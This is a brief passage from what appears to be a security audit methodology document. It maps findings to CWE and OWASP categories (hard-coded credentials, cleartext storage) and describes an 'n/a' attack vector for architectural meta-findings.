**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)